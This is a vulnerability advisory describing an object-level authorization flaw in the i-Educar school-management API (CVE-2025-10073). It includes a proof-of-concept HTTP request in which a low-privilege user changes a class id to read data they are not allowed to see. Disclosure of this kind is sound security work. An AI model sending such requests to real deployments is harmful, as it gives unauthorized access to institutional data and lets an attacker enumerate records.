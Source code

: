 # Broken Object Level Authorization (BOLA) Broken Object Level Authorization (BOLA) allows enumeration of classes data via /module/Api/turma
### Summary

A **Broken Object Level Authorization (BOLA)** vulnerability was identified in the `turma` API of the **i-Educar** application. This flaw allows a user without proper permissions to query the endpoint and retrieve ** class information**  by manipulating request parameters.

Although this vulnerability does not directly expose individual student data, it still constitutes an **unauthorized disclosure of academic structure information**, which can be leveraged for enumeration or as a stepping stone for further attacks.

---

### Details

**Vulnerable Endpoint:**  
`GET /module/Api/turma`

The application fails to enforce **object-level authorization** when handling this endpoint. As a result, any authenticated user can manipulate the request values to access data that they shouldn't.

**Expected behavior:**

- Only authorized roles (e.g., administrators, coordinators, teachers linked to the class) should be able to access this data.
    
- Unauthorized users should receive **403 Forbidden** or an empty response.
    

**Observed behavior:**

- Any authenticated user (even low-privilege accounts) can access this endpoint and retrieve sensitive information about academic classes.

---
### Proof of Concept (PoC)

1. Authenticate as a non-privileged user.

<img width="1380" height="528" alt="Pasted image 20250821225155" src="https://github.com/user-attachments/assets/6211642e-e642-4545-9b98-2f64f6d12353" />
<img width="846" height="616" alt="Pasted image 20250821225232" src="https://github.com/user-attachments/assets/9fa0d5b8-5def-4bcc-b661-22a73787bdaa" />


2. Send the following request:

```
GET /module/Api/turma?&oper=get&resource=turma&id=14 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://localhost/intranet/educar_turma_det.php?cod_turma=14
Cookie: i_educar_session=[low-privileged-session]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

```

<img width="1574" height="679" alt="Pasted image 20250823181900" src="https://github.com/user-attachments/assets/07323923-5a36-48a9-a488-1269a5463576" />


3. We could observe that informations about classes were returned.


---

### Impact

- **Information Disclosure:** Even though student data is not included, sensitive details about the institution’s internal structure (classes, courses, schedules) are exposed.
    
- **Reconnaissance Vector:** An attacker could use this endpoint to map out the entire academic structure, identifying valid IDs.
    
- **Chaining attacks:** Combined with other vulnerabilities (e.g., BOLA on enrollment endpoints), this facilitates enumeration and targeted exploitation of student records.
    
- **Compliance Risk:** Exposure of institutional metadata to unauthorized users can still represent a data governance issue.
    

---

## References

[CVE-2025-10073](https://www.cve.org/CVERecord?id=CVE-2025-10073)

[VulnDB-323021](https://vuldb.com/?id.323021)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
